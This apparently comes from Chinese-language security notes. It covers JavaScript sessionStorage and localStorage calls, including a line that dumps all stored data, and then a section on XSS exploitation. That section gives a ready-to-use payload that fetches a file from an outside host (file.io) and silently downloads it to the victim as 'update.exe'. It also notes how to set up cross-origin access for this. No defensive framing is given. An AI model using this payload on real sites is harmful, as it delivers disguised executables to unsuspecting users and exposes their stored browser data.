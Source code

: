 sessionStorage
```JavaScript
// sessionStorage.setItem方法  写入key-value对
sessionStorage.setItem("key1","value1");

// sessionStorage.getItem方法  根据key读取对应value
var valueSession = sessionStorage.getItem("key1");

//sessionStorage.removeItem方法  删除key-value对
sessionStorage.removeItem('key');

//sessionStorage.clear方法  清除sessionStorage中的所有key-value对
sessionStorage.clear();
```

localStorage
```JavaScript
//查看数据 - localStorage中的所有的数据
alert(JSON.stringify(localStorage))

// 查看数据 - 遍历localStorage中的所有的数据 使用了.key方法
for(var i = 0; i < localStorage.length; i++)
{
    console.log(localStorage.key(i));
}


// localStorage.key方法  查看第 3 条 key-value对
localStorage.key(3);
```

#### XSS利用方式 - 自动下载文件

* 待下载文件的位置
  * 同域 - 在域`a.com` 如果下载同域的文件,则无需考虑跨域.
  * 非同域 - 在域`a.com` 如果下载非同域`https://file.io`的文件,需要"跨域"
    * 跨域方案1 - 设置`https://file.io/`的CORS策略,允许来自域`a.com`的跨域请求.

在`a.com`下 自动下载文件
```JavaScript
// 使用`fetch API`和`Blob(Binary large object)`对象
fetch('https://file.io/test')
.then(resp => resp.blob())
.then(blob => {
const url = window.URL.createObjectURL(blob);
const a = document.createElement('a');
a.style.display = 'none';
a.href = url;
a.download = 'update.exe';// the filename showed
document.body.appendChild(a);
a.click();
window.URL.revokeObjectURL(url);
})
.catch(() => console.log('download fail!'));
```
